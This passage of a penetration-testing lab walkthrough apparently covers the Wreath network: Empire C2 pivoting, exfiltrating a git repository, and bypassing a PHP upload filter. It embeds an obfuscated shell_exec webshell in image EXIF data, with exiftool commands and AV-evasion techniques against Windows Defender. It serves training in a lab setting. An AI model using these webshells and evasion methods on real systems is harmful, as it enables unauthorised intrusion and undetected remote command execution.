Switch back to the Listeners menu in Starkiller using the menu at the left-hand side of the screen:


Create a new listener and choose "http_hop" for the type. We then fill in the options much like with the Empire CLI Client:


Again, we set the **Host** (`.200`), **Port**, and **RedirectListener**.

***Note:** if you also have a Hop Listener set up using the Empire CLI then you  should also change the OutFolder to avoid overwriting the previously  generated files.*

Click "Submit", and the listener starts!

## Git Server                            

Time to put this all into practice!

You should already have a `http_hop` listener started in either Empire or Starkiller from the last task. If  you don't, take this opportunity to start one before continuing.

With the listener started there are two things we must do before we can get an agent back from the Git Server:-

- We must generate an appropriate stager for the target
- We must put the `http_hop` files into position on .200, and start a webserver to serve the files  on the port we selected during the listener creation. This server must  be able to execute PHP, so a PHP Debug server is ideal

------

Let's start with generating a stager. For this we will use the `multi/launcher` stager. We already covered how to create stagers back in task 26, so  you should be able to do this relatively unguided. The only option  needing to be set here is the "Listener" option, which needs set to the  name of the `http_hop` listener we created in the previous task:

**Empire CLI:**


**Starkiller:**


If using the Empire CLI, you will be presented with a payload to copy and paste into the target's command line:


If using Starkiller you can copy the payload to your clipboard by clicking on the copy button of the Actions menu for the stager in the main  Stagers menu:


Whichever method you chose, save the provided command somewhere and *do not* execute it yet. We will need it once we have set up the hop files on the jumpserver.

------

Now let's get that jumpserver set up!

First of all, in the /tmp directory of the compromised webserver, create and enter a directory called `hop-USERNAME`. e.g.:


Transfer the contents from the `/tmp/http_hop` (or whatever you called it) directory across to this directory on the  target server. A good way to do this is by zipping up the contents of  the directory (`cd /tmp/http_hop && zip -r hop.zip *`), then transferring the zipfile across using one of the methods previously shown. For example, doing this with a Python HTTP server:


We can then unzip the zipfile on the webserver (i.e. `unzip hop.zip`):


***Note:** the output of* `ls` must *match up with the screenshot -- i.e. there should be a* `news.php` *file in your current directory, with* `admin/` *and* `login/` *as subdirectories.*

We now need to actually serve the files on the port we chose when  generating the http_hop listener (task 28). Fortunately we already know  that this server has PHP installed as it serves as the backend to the main website. This means  that we can use the PHP development webserver to serve our files! The  syntax for this is as follows:
`php -S 0.0.0.0:PORT &>/dev/null &`

e.g:


As shown in the screenshot, the webserver is now listening in the background on the chosen port 47000.

***Note:** Remember to open up the port in the firewall if you haven't already!*

This is a handy trick for when we need to serve PHP files, as our standard Python HTTP webserver is not capable of interpreting the PHP language and so cannot execute the scripts.

------

We now have everything we need to get this show on the road!

Answer the questions below                                                            

Both the reverse shell  we received way back in task 19, and our evil-winrm access are already  running in Powershell, so we would need to adapt the stager generated  for us by Empire in order to use them. Instead, it is easier to use it  with the webshell we originally used to compromise the machine (i.e.  paste the stager as the value of the "a" parameter in cURL or  BurpSuite), remembering to URL encode the stager first.

After sending the web request, you should receive an agent in Empire CLI / Starkiller!


Note that the IP here is still `.200`. This is due to the  jumpserver in between our target (the Git server) and our Empire client  acting as a proxy in and out of the network.

Bearing this in mind, get an agent back from the Git Server!

## Empire: Modules                            

As mentioned previously, modules are used to perform  various tasks on a compromised target, through an active Empire agent.  For example, we could use Mimikatz through its Empire module to dump  various secrets from the target.

As per usual, let's look at loading modules in both Empire CLI and Starkiller.

------

Starting with Empire CLI:

Inside the context of an agent, type `usemodule `. As expected, this will show a dropdown with a huge list of modules which can be loaded into the agent for execution.

It doesn't really matter here as we already have full access to the  target, but for the sake of learning, let's try loading in the Sherlock  Empire module. This checks for potential privilege escalation vectors on the target.
`usemodule powershell/privesc/sherlock`


As previously, we can use `options` to get information about the module after loading it in.

This module requires one option to be set: the `Agent` value. This is already set for us here; however, if it was incorrect or there was no option set already then we could set it using the command: `set Agent AGENT_NAME`, (the same syntax as in previous parts of the framework).

We start the module using the usual `execute` command. The module will then run as a background job, returning the results when it completes.



If we know approximately what we want to do, but don't know the exact path to a module, we can just type `usemodule NAME_OF_MODULE` and it should come up in the dropdown menu:


------

Now let's do the same thing in Starkiller.

First we switch over to the modules menu:


In the top right corner we can search for our desired module. Let's search for the Sherlock module again:


Select the module by clicking on its name.

From here we click on the Agents menu, then select the agent(s) to use the module through:


Click Submit to run the module!

To view the results we need to switch over to the "Reporting" section of the main menu on the left side of the window:


From here we can see the task we just ran, showing the Agent in use, the event type, command, user, and a timestamp.


Clicking on the dropdown arrow to the left of the task gives the task results:


##   Empire: Interactive Shell                            

The interactive shell was a new feature in Empire 4.0. It effectively allows you to access a traditional pseudo-command shell from within  Starkiller or the Empire CLI Client. This can be used to execute  PowerShell commands, as you would in a Powershell reverse shell.

To access the interactive shell in the Empire CLI Client, we can use the `shell` command from within the context of an agent:


In Starkiller this is even easier as the shell can be found directly in the Agent interaction interface:


Whilst not quite as "familiar" as the command line shell, this gives us the exact same access.

##  Conclusion                            

We have now covered the fundamentals of working with a  command and control framework. Empire is significantly more extensive  than the basics we have looked at in the time and space available here,  so it's well worth doing some more research on it in your own time!

The overarching take-aways from this section are:

- C2 Frameworks are used to consolidate access to a compromised machine, as well as streamline post-exploitation attempts
- There are many C2 Frameworks available, so look into which ones work best for your use case
- Empire is a good choice as a relatively well-rounded, open source C2 framework
- Empire is still in active development, with upgrades and new features being released frequently
- Starkiller is a GUI front-end for Empire which makes collaboration using the framework very easy

This has very much been a whistle-stop tour of both the Empire framework and the topic in general, but hopefully it has been useful nonetheless.

# Personal PC

##  Enumeration                            

We will soon be moving on to the final teaching point of this network: Anti-virus evasion techniques.

Before we can do that, however, we first need to scope out the final target!

We know from the briefing that this target is likely to be the other  Windows machine on the network. By process of elimination we can tell  that this is Thomas' PC which he told us has antivirus software  installed. If we're very lucky it will be out of date though!

As always, we need to enumerate the target before we can do anything else, but how can we do this from a compromised Windows host? As mentioned  way back in the Pivoting Enumeration task, Nmap won't work on Windows  unless it's been properly installed on the target. Scanning through one  proxy is bad, but at this point we'd be scanning through *two*  proxies, which would be unbearable. We could write a tool to do it for  us, but let's leave that for the time being (there will be more than  enough coding in the upcoming section as it is!). Instead, let's look  closer to home and ask one burning question:

**How do Empire Modules work?**

For the most part Empire modules are quite literally just scripts (usually  in PowerShell) that are executed by the framework through an active  agent. In other words, these are just PowerShell scripts, and we have  PowerShell access to the target.

For the sake of learning, let's upload the Empire Port Scanning script and execute it manually on the target. 

------

In our current situation (on an isolated target, communicating through a  jumpserver), under normal circumstances uploading tools manually would  usually be something of a chore -- think relays and webservers.  Fortunately evil-winrm gives us several easy options for transferring  and including tools.

**Upload/Download:**
The first option available to us is the in-built Upload/Download feature built into the tool. From within evil-winrm we can use `upload LOCAL_FILEPATH REMOTE_FILEPATH` to upload files to the target. Conversely, we can use `download REMOTE_FILEPATH LOCAL_FILEPATH` to download files back from the target. These could come in handy if  we, say, wanted to upload a tool to the target, save the results from  running it to a log file, then download the log file back to our  attacking machine for storage. In both instances if we miss out the  destination filepath (e.g. the remote filepath on upload, or the local  filepath on download), the tool will be uploaded into our current  working directory.

For example:


In this example we upload an example tool (`nc.exe`) to `C:\Windows\Temp`, we then create a new file (`demo.txt`) and download it to the current working directory. Note that in the real world using the `C:\Windows\Temp` directory is often a bad idea as it's flagged as a common location for  hackers to upload tools. In this case we are using it to keep the box  neat and tidy for other users. 

**Local Scripts:**
Uploading tools is all well and good, but if the tool happens to be a PowerShell  script then there is another (even more convenient) method. If you check the help menu for evil-winrm, you will see an interesting `-s` option. This allows us to specify a local directory containing  PowerShell scripts -- these scripts will be made accessible for us to  import directly into memory using our evil-winrm session (meaning they  don't need to touch the disk at all). For example, if we happened to  have our scripts located at `/opt/scripts`, we could include them in the connection with:
`evil-winrm -u USERNAME -p PASSWORD -i IP -s /opt/scripts`

Let's use this option to include the Empire Portscan module.

The Empire scripts are stored at `/usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/` if you installed using apt as recommended. A copy of this tool is also  included in the zipfile attached to Task 1, or can be downloaded [here](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/situational_awareness/network/Invoke-Portscan.ps1), if you can't find it locally.

Regardless, we can now sign in as the Administrator using the password hash  discovered previously, including the Empire network scanning scripts:
`evil-winrm -u Administrator -H HASH -i IP -s EMPIRE_DIR`

Type `Invoke-Portscan.ps1` and press enter to initialise the script.

Now if we type `Get-Help Invoke-Portscan` we should see the help menu for the tool without having to import or upload anything manually!

------

The Empire Portscan module is designed to be similar to Nmap in terms of  syntax. You are encouraged to read through the full help menu for the  tool; however, we only need two switches: `-Hosts` and `-TopPorts`. We *could* use the `-Ports` switch and just scan a range of ports, but for the sake of speed we can use the -TopPorts switch to scan a user-specified number of the most  commonly open ports. For example, `-TopPorts 50` would scan the 50 most commonly open ports. 

The full command would then look like this (using the top 50 ports and our example of 172.16.0.10):
`Invoke-Portscan -Hosts 172.16.0.10 -TopPorts 50`

## Pivoting                            

We found two ports open in the previous task. RDP won't be of much use to us without credentials (or at least a hash,  although Pass-the-Hash attacks are often restricted through RDP anyway); however, the webserver is worth looking into. Wreath told us that he  worked on his website using a local environment on his own PC, so this  bleeding-edge version may contain some vulnerabilities that we could use to exploit the target. Before we can do that, however, we must figure  out how to access the development webserver on Wreath's PC from our  attacking machine. 

We have two immediate options for this: **Chisel**, and **Plink**.

If you followed the recommended route of using sshuttle to pivot from the  webserver then a *chisel forward proxy* is recommended here  as it will be  relatively easy to connect to through the sshuttle connection without  requiring a relay -- look back at the Chisel task if you need help with  this! 

When using this option you will need to open up a port in  the Windows firewall to allow the forward connection to be made. The  syntax for opening a port using `netsh` looks something like this:
`netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

Please use the `name-USERNAME` naming convention -- for example:
`netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000`


​                                                            

Access the website in your web  browser (using FoxyProxy if you used the recommended forward proxy, or  directly if you used a port forward). 

Using the Wappalyzer browser extension ([Firefox](https://addons.mozilla.org/en-GB/firefox/addon/wappalyzer/) | [Chrome](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en)) or an alternative method, identify the server-side Programming language (including the version number) used on the website.

## The Wonders of Git                            

It seems we guessed right! It appears to be a carbon copy of the  website running on the webserver. If there are any differences here then they are clearly not going to be immediately visible, which means we  may need to look at fuzzing this site through two proxies...

Before we start messing around with fuzzing tools though, let's take a step back and think about this.

We know from the brief that Thomas has been using git server to version  control his projects -- just because the version on the webserver isn't  up to date, doesn't mean that he hasn't been committing to the repo more regularly! In other words, rather than fuzzing the server, we might be  able to just download the source code for the site and review it  locally.

Ideally we could just clone the repo directly from the  server. This would likely require credentials, which we would need to  find. Alternatively, given we already have local admin access to the git server, we could just download the repository from the hard disk and  re-assemble it locally which does not require any (further)  authentication. 

For the sake of practice, let's use this latter option.                   

Use `evil-winrm` to download the entire directory. 

From the directory above Website.git, use:
`download PATH\TO\Website.git`                                                            

Exit out of evil-winrm -- you should  see that a new directory called Website.git has been created locally. If you enter into this directory you will see an oddly named subdirectory  (the same as the answer to question 1 of this task).

Rename this *subdirectory* to `.git`.

​                                                            

Git repositories always contain a special directory called `.git` which contains all of the meta-information for the repository. This  directory can be used to fully recreate a readable copy of the  repository, including things like version control and branches. If the  repository is local then this directory would be a part of the full  repository -- the rest of which would be the items of the repository in a human-readable format; however, as the `.git` directory is  enough to recreate the repository in its entirety, the server doesn't  need to store the easily readable versions of the files. This means that what we've downloaded isn't actually the full repository, so much as  the building blocks we can use to recreate the repo (which is exactly  what happens when using `git clone` to create a local copy of a repo!).

In order to extract the information from the repository, we use a suite of tools called GitTools.

Clone the GitTools repository into your current directory using:
`git clone https://github.com/internetwache/GitTools`

The GitTools repository contains three tools:

- **Dumper** can be used to download an exposed `.git` directory from a website should the owner of the site have forgotten to delete it
- **Extractor** can be used to take a local `.git` directory and recreate the repository in a readable format. This is  designed to work in conjunction with the Dumper, but will also work on  the repo that we stole from the Git server. Unfortunately for us, whilst Extractor *will* give us each commit in a readable format, it will not sort the commits by date
- **Finder** can be used to search the internet for sites with exposed `.git` directories. This is significantly less useful to an ethical hacker, although may have applications in bug bounty programmes

Let's use Extractor to obtain a readable format of the repository!

The syntax for Extractor is as follows:
`./extractor.sh REPO_DIR DESTINATION_DIR`

This is slightly confusing, so explaining each option:

- The `REPO_DIR` is the directory *containing* the `.git` directory for the repository. Note that this is not the `.git` directory itself. Extractor looks for a `.git` directory *inside* the specified directory (which is why we had to change the original name of the directory to ".git")
- The `DESTINATION_DIR` is the subdirectory into which the repository will be created

For example, if we cloned the GitTools repo into the same directory as the `.git` directory we downloaded from the Git Server, we can extract the  contents of the stolen repository into a subdirectory called "Website"  using:
`GitTools/Extractor/extractor.sh . Website`

This uses the current directory "`.`" (as the parent of the `.git` directory) and extracts into a newly created `Website` subdirectory.


​                                                            

Let's head into the newly recreated repository. We see three directories:


Each of these corresponds to a commit; however, as mentioned previously, these are not sorted by date...

It's up to us to piece together the order of the commits. Fortunately there  are only three commits in this repository, and each commit comes with a `commit-meta.txt` file which we can use to get an idea of the order.

We could just cat each of these files out separately, but we may as well do it the fancy way with a bash one-liner:
```
separator="======================================="; for i in $(ls); do printf "\n\n$separator\n\033[4;1m$i\033[0m\n$(cat $i/commit-meta.txt)\n"; done; printf "\n\n$separator\n\n\n"
```

This gives us the three `commit-meta.txt` files in a nicely formatted order:


Here we can see three commit messages: `Updated the filter`, `Initial Commit for the back-end`, and 

`Static Website Commit`.

***Note:** The number at the start of these directories is arbitrary, and depends  on the order in which GitTools extracts the directories. What matters is the hash at the end of the filename.*

Logically speaking, we can guess that these are currently in reverse order based on the commit message;  however, we could also check the parent value of each commit. Starting  at the only commit without a parent (which must be the initial commit),  we can work down the tree in stages like so:


We find the commit that has no parent (`70dde80cc19ec76704567996738894828f4ee895`), and check to see which of the other commits specifies it as a direct parent (`82dfc97bec0d7582d485d9031c09abcb5c6b18f2`). We then repeat the process to find the full commit order:

1. 70dde80cc19ec76704567996738894828f4ee895
2. 82dfc97bec0d7582d485d9031c09abcb5c6b18f2
3. 345ac8b236064b431fa43f53d91c98c4834ef8f3

We *could* also do this by checking the timestamps attached to the commits (in  UNIX format, after the emails); however, it is possible to fake these.  Feel free to use them, but be aware that they may not always be  accurate.

------

If that didn't make sense, don't worry!

The short version is: the most up to date version of the site stored in the Git repository is in the `NUMBER-345ac8b236064b431fa43f53d91c98c4834ef8f3` directory.                            

## Website Code Analysis                            

Head into the `NUMBER-345ac8b236064b431fa43f53d91c98c4834ef8f3/` directory.

The `index.html` file isn't promising -- realistically we need some PHP, which we identified as the webserver's back-end language in Task 31. 

Let's look for PHP files using `find`:
`find . -name "*.php"`

Only one result:
`./resources/index.php`


If we're going to find a serious vulnerability, it's going to have to be here!

Let's turn our attention to the code itself now.

Reading through the PHP code, it appears that there are *two* filters in place here, plus a simple check to see if the file already exists.

These filters are rolled together into one block of PHP code:
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
    header("location: ./?msg=Fail");
    die();
}
```

The first line here uses a classic PHP technique used to see if a file is an image. In short, images have their dimensions encoded in their exif data. The `getimagesize()` method returns these dimensions if the file is genuinely an image, or the boolean value `False` if the file is not an image. This is more difficult to bypass than other filters, but it's far from impossible to do so.

 The second line is an If statement which checks two conditions. If either condition fails (indicated by the "Or" operator: `||`) then the script will redirect with a Failure message. The second condition is easy: `!$size` just checks to see if the `$size` variable contains the boolean `False`. The first condition may need to be broken down a little.

```
!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts)
```

There are two functions in play here: `in_array()` and `explode()`. Let's start with the innermost function and work out the way:
`explode(".", $_FILES["file"]["name"])[1]`

The `explode()` function is used to split a string at the specified character. Here  it's being used to split the name of the file we uploaded at each period (`.`). From this we can (rightly) assume that this is a file-extension filter. As an example, if we were to upload a file called `image.jpeg`, this function would return a list: `["image", "jpeg"]`. As the filter only really needs the file-extension, it then grabs the second item from the list (`[1]`), remembering that lists start at 0.

This, unfortunately, leads to a big problem. What happens if there's more  than one file extension? Let's say we upload a file called `image.jpeg.php`. The filename gets split into `["image", "jpeg", "php"]`, but only the `jpeg` (as the second element in the list) gets passed into the filter!

Looking at the outer function now (and replacing the inner function with a placeholder of `EXPLODE_RESULTS`):
`!in_array(EXPLODE_RESULTS, $goodExts)`

This checks to see if the result returned by the `explode()` method is *not* in an array called `$goodExts`. In other words, this is a whitelist approach where only certain  extensions will be accepted. The accepted extension list can be found in line 5 of the file. 

Between lines 4 and 15:
```php
$target = "uploads/".basename($_FILES["file"]["name"]);
...
move_uploaded_file($_FILES["file"]["tmp_name"], $target);
```


We can see that the file will get moved into an `uploads/` directory with it's original name, assuming it passed the two filters.

In summary:

- We know how to find our uploaded files
- There are two file upload filters in play
- Both filters are bypassable

We have ourselves a vulnerability!

##  Exploit PoC                            

Ok, so we know what is likely to happen when we access this page:

- It will probably ask us for creds
- We'll be able to upload image files
- There are two filters in play to stop us from uploading other kinds of files
- Both of these filters can be bypassed

Perfect -- let's access the page! 

Let's head to the `/resources` directory.

As expected, we are met with a request for authentication:


We can assume that the username here is *probably* either `Thomas` or `twreath` -- both of which we have already seen. We also already have one of  Thomas' passwords, stolen from the Git Server using Mimikatz. 

See if you can login using these usernames with that password!

​                                                            

Success!


How cute -- a page to allow Thomas to upload pictures of his beloved cat, Ruby.

Try uploading a legitimate image -- see if you can access it!                                                    

We already know how to bypass the first filter -- simply changing the extension to `.jpeg.php` should be enough.

The second filter is slightly harder, but doable.

As the `getimagesize()` function is checking for attributes that only an image will have, we need to give it what it wants: an image.

In other words, we need to upload a genuine image file which contains a PHP webshell *somewhere*. If this file has a `.php` file extension then it will be executed by the website as a PHP file, meaning all we need to do is force a webshell into the file and we're golden.

The easiest place to stick the shell is in the exifdata for the image -- specifically in the `Comment` field to keep it nicely out of the way.

Take a regular image (i.e. download a jpeg of your choice off the internet, keeping it safe for work) and rename it to `test-USERNAME.jpeg.php`, substituting in your own TryHackMe username.

We can then use `exiftool` to check the exifdata of the file:
`exiftool IMAGE_NAME`


***Note:** you may need to install exiftool before use (**`sudo apt install exiftool`).*

Here we can see all of the exifdata for the image. Exiftool also allows us  to edit this information, which makes it a great choice for the exploit  we're going to carry out.

Before we actually start inserting payloads into the image, however, there is one more thing to take into  account. There is antivirus software running on this target. We don't  know which AV Thomas uses, but we know that there will be protections enabled on this target. We don't know how strict the Antivirus software he uses is --  for all we know it will pick up any kind of default PHP webshell that we upload, alerting him to how close we are to compromising his host. It  might not, but why take the chance? For this reason we will not be  uploading a live payload in this task. Instead we will create a proof of concept here, then upload a live payload when we have completed the PHP Obfuscation task in the AV Evasion section of the network.

Bearing this in mind, let's create our PoC!

We'll be using the following PHP payload for this:
`<?php echo "<pre>Test Payload</pre>"; die();?>`

This is completely harmless and ergo should not get picked up by the AV. It does give us confirmation that this is likely to work, however, and stages the way for the actual webshell upload.

To add this to our image we once again use exiftool:
`exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-USERNAME.jpeg.php`


Now try uploading the file and accessing it in your browser!


***Note:** The HTML form is configured to only allow image uploads through the GUI, so don't be alarmed if you don't see your script in your working  directory. Just change "All Supported Types" at the bottom right of the  Window to "All Files":
*



We have the ability to execute arbitrary PHP code on the system!

# AV Evasion

## Introduction                            

Antivirus Evasion is the third and final primary teaching point of the Wreath network.

By nature, AV Evasion is a rapidly changing topic. It's a constant dance between  hackers and developers. Every time the developers release a new feature, the hackers develop a way around it. Every time the hackers bypass a  new feature, the developers release another feature to close off the  exploit, and so the cycle continues. Due to the speed of this process,  it is nigh impossible to teach bleeding-edge techniques (and expect them to stay relevant for any length of time), so we are only going to be  covering the fundamentals of the topic here. Without further ado, let's  dive in!

------

When it comes to AV evasion we have two primary types available:

- On-Disk evasion
- In-Memory evasion

On-Disk evasion is when we try to get a file (be it a tool, script, or  otherwise) saved on the target, then executed. This is very common when  working with executable (`.exe`) files.

In-Memory  evasion is when we try to import a script directly into memory and  execute it there. For example, this could mean downloading a PowerShell  module from the internet or our own device and directly importing it  without ever saving it to the disk.

In ages past, In-Memory evasion was enough to bypass most AV solutions as the majority of antivirus software was unable to scan  scripts stored in the memory of a running process. This is no longer the case though, as Microsoft implemented a feature called the **A**nti-**M**alware **S**can **I**nterface (AMSI). AMSI is essentially a feature of Windows that scans scripts as  they enter memory. It doesn't actually check the scripts itself, but it  does provide hooks for AV publishers to use -- essentially allowing existing antivirus software  to obtain a copy of the script being executed, scan it, and decide  whether or not it's safe to execute. Whilst there are various bypasses  for this (often involving tricking AMSI into failing to load), these are out of scope for this room.

In terms of methodology: ideally speaking, we would start by attempting to fingerprint the AV on the target to get an idea of what solution we're up against. As this is often an interactive (social-engineering reliant) process, we will  skip it for now and assume that the target is running the default  Windows Defender so that we can get straight into the meat of the topic. If we already have a shell on the target, we may also be able to use  programs such as [SharpEDRChecker](https://github.com/PwnDexter/SharpEDRChecker) and [Seatbelt](https://github.com/GhostPack/Seatbelt) to identify the antivirus solution installed. Once we know the OS version and AV of the target, we would then attempt to replicate this  environment in a virtual machine which we can use to test payloads  against. Note that we should *always* disable any kind of cloud-based protection in the AV settings (potentially by outright disconnecting the VM from the  internet) so that the AV doesn't upload our carefully crafted payloads  to a server somewhere for analysis, destroying all our hard work. Once  we have a working payload, we can then deploy it against the target!

AV Evasion usually involves some form of obfuscation when it comes to  payloads. This could mean anything from moving things around in the  exploit and changing variable names, to encoding aspects of the script,  to outright encrypting the payload and writing a wrapper to decrypt and  execute the code section-by-section. The aim is to switch things enough  that the AV software is unable to detect anything bad.



## AV Detection Methods                            

Before we get into the practical side of things, let's talk a little  about the different detection methods employed by antivirus software.

Generally speaking, detection methods can be classified into one of two categories:

- Static Detection
- Dynamic / Heuristic / Behavioural Detection

Modern Antivirus software will usually rely on a combination of these.

------

Static detection methods usually involve some kind of signature detection. A  very rudimentary system, for example, would be taking the hashsum of the suspicious file and comparing it against a database of known malware  hashsums. This system does tend to be used; however, it would never be  used by itself in modern antivirus solutions. For this reason it's  usually a good idea to change *something* when working with a known exploit. The smallest change to the file will result in a completely  different hashsum, so even something as small as changing a string in  the help message would be enough to bypass this kind of rudimentary  detection system.

Fortunately (or unfortunately for us as hackers), this is usually nowhere near enough to bypass static detection methods.

The other form of static detection which is often used in antivirus  software (to much greater effect) is a technique called Byte (or string) matching. Byte matching is another form of signature detection which works by  searching through the program looking to match sequences of bytes  against a known database of bad byte sequences. This is much more  effective than just hashing the entire file! Of course, it also means  that we (as hackers) have a much harder job tracking down the exact line of code responsible for the flag.

The tradeoff with  this method is, of course, speed. Checking small sequences of bytes  against a potentially huge program with multiple libraries can take a  comparatively long time compared to the milliseconds it would take to  hash the entire file and compare the hash against a database. As such, a compromise is sometimes made whereby the AV program hashes small sections of the file to check against the  database, rather than hashing the entire thing. This obviously reduces  the effectiveness of the technique, but does increase the speed  somewhat.

------

Where static virus malware detection methods look at the file itself, dynamic methods look at how the file *acts.* There are a couple of ways to do this.

1. AV software can go through the executable line-by-line checking the flow of execution. Based on *pre-defined rules* about what type of action is malicious (e.g. is the program reaching  out to a known bad website, or messing with values in the registry that  it shouldn't be?), the AV can see how the program *intends* to act, and make decisions accordingly
2. The suspicious software can outright be executed inside a sandbox environment under close supervision from the AV software. If the program acts maliciously then it is quarantined and flagged as malware

Evading these measures is still perfectly possible, although a lot harder than  evading static detection techniques. Sandboxes tend to be relatively  distinctive, so we just need to look for various system values (e.g. is  there a fan installed, is there a GUI, and if so, what resolution is it, are there any distinctive tools or services running -- `VMtools` for VMware virtual machines, for example) and check to see if there are any red  flags. For example, a machine with no fan, no GUI and a classic VM  service running is very likely to be a sandbox -- in which case the  program should just exit. If the program exits without doing anything  malicious then the AV software is fooled into believing that it's safe  and allows it to be executed on the target.

Equally, with logic-flow analysis, the AV software is still only working with a set of rules to check malicious  behaviour. If the malware acts in a way that is unexpected (e.g. has  some random code that does the grand sum of nothing inserted into the  exploit) then it will likely pass this detection method.

In addition to this, when working with certain kinds of delivery methods,  password protecting the file can get straight around the behavioural  analysis checks as (unlike the user who knows the password), the AV software is unable to open and execute the file.

That said, dynamic detection methods are usually a lot more effective than  static methods. The drawback is, once again, the time and resources  required to spin up a VM to analyse the file in, or go through it line-by-line to see if it's  doing anything malicious. These are actions that take time (causing  users to grow impatient), and use up a lot of the computer's available  resources. Once again the AV has to compromise, using a combination of  dynamic and static analysis when scanning a file.

------

To make life harder still, antivirus vendors are usually in close contact  with one another -- as well as with scanning sites such as [VirusTotal](https://www.virustotal.com/). When the AV detects a suspicious file, it usually sends the file back to servers  owned by the provider where it gets analysed and shared with other  providers. What this means is that once our payload is detected on one  computer, the chances are that it will quickly be taken apart and  shielded against. This rapid sharing of information allows AV providers  to stay ahead of bad actors (a good thing), but also obviously adds an  extra complication into our job as Ethical Hackers.

Additionally, new techniques are being developed all the time. For example, many  attempts are being made to use machine learning techniques to  dynamically update the list of bad behaviours in a sandbox environment,  or the rule-lists used in logic-flow analysis of a suspicious file. If  you're interested in some of the work being done in this area,  TryHackMe's very own [CMNatic](https://cmnatic.co.uk/) did his dissertation on the subject, which can be read [here](https://resources.cmnatic.co.uk/Presentations/Dissertation/).

## PHP Payload Obfuscation                            

Now that we've covered the basic terminology, let's get back to hacking this PC!

We have an upload point which we can use to upload PHP scripts. We now need to figure out how to make a PHP script that will  bypass the antivirus software. Windows Defender is free and comes  pre-installed with Windows Server, so let's assume that this is what is  in use for the time being.

The solution is this:
We  build a payload that does what we need it to do (preferably in a  slightly less than common way), then we obfuscate it either manually or  by using one of the many tools available online. 

First up, let's build that payload:
```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```


Here we check to see if a GET parameter called "wreath" has been set. If so, we execute it using `shell_exec()`, wrapped inside HTML `<pre>` tags to give us a clean output. We then use `die()` to prevent the rest of the image from showing up as garbled text on the screen.

This is slightly longer than the classic PHP one-liner webshell (`<?php system($_GET["cmd"]);?>`) for two reasons:

1. If we're obfuscating it then it will become a one-liner anyway
2. Anything *different* is good when it comes to AV evasion

We now need to obfuscate this payload. 

There are a variety of measures we could take here, including but not limited to:

- Switching parts of the exploit around so that they're in an unusual order
- Encoding all of the strings so that they're not recognisable
- Splitting up distinctive parts of the code (e.g. `shell_exec($_GET[...])`)

​                                                            

Manual obfuscation is very much a thing, but for the sake of  simplicity, let's just use one of the available online tools. The tool  linked [here](https://www.gaijin.at/en/tools/php-obfuscator) is recommended. When it comes to web obfuscation, these tools are  generally used to make the code difficult for humans to read; however,  by doing things like obfuscating variable/function names and encoding  strings, they also prove effective against antivirus software.

Stick the payload into the tool, then activate all the obfuscation options:


Click the "Obfuscate Source Code" button, and we're left with this mess of PHP:
`<?php $p0=$_GET[base64_decode('d3JlYXRo')];if(isset($p0)){echo  base64_decode('PHByZT4=').shell_exec($p0).base64_decode('PC9wcmU+');}die();?>`

If you look closely you'll see that this is still very much the same payload as before; however, enough has changed that it *should* fool Defender.

As this is getting passed into a bash command, we will need to escape the  dollar signs to prevent them from being interpreted as bash variables.  This means our final payload is as follows:
`<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo  base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>`

​                                                            

With an obfuscated payload, we can now finalise our exploit.

Once again, make a copy of an innocent image (ensuring you give it a name in the format of `shell-USERNAME.jpeg.php`), then use `exiftool` to embed the payload into the image:
`exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo  base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-USERNAME.jpeg.php`



​                                                            

Upload your shell and attempt to access it!

If this worked then you should get an output similar to the following:


​                                                            

Awesome! We have a shell.

We can now execute commands using the `wreath` GET parameter, e.g:
`http://10.200.72.100/resources/uploads/shell-USERNAME.jpeg.php?wreath=systeminfo`




## Compiling Netcat & Reverse Shell!

Our webshell is all well and good, but let's go for a full reverse shell!

Unfortunately, we have a problem. Unlike in Linux where there are usually many ways to obtain a reverse shell, the  options in Windows are a lot fewer in number as Windows tends not to  have many scripting languages installed by default.

Realistically we have several options here:

- Powershell tends to be the go-to for Windows reverse shells. Unfortunately  Defender knows exactly what PowerShell reverse shells look like, so we'd have to do some serious obfuscation to get this to work.
- We could try to get a PHP reverse shell as we know the target has a PHP interpreter installed.  Windows PHP reverse shells tend to be iffy though, and again, may  trigger Defender.
- We could generate an executable reverse shell using msfvenom, then upload and activate it using the webshell.  Again, msfvenom shells tend to be very distinctive. We could use the [Veil Framework](https://www.veil-framework.com/) to give us a meterpreter shell executable that might bypass Defender, but let's try to keep this manual for the time. Equally, [shellter](https://www.shellterproject.com/) (though old) might give us what we need. There are easier options though.
- We could upload netcat. This is the quick and easy option.

The only problem with uploading netcat is that there are hundreds of  different variants -- the version of netcat for Windows that comes with  Kali is known to Defender, so we're going to need a different version.  Fortunately there are many floating around! Let's use one from github, [here](https://github.com/int0x33/nc.exe/).

Clone the repository:
`git clone https://github.com/int0x33/nc.exe/`

This repository already contains pre-compiled netcat binaries for both 32  and 64 bit systems, however, this is an ideal time to talk about  cross-compilation techniques. If you'd prefer to just use the default  binaries then just skip to the last section of this task and use the `nc64.exe` binary from the repository.

------

Cross compilation is an essential skill -- although in many ways it's preferable to avoid it. 

First up: what is cross compilation? The idea is to compile source code into a working program to run on a different platform. In other words, cross  compilation would allow us to compile a program for a different Linux kernel, a Windows program on Kali (as we're doing here), or even software for an embedded device or phone.

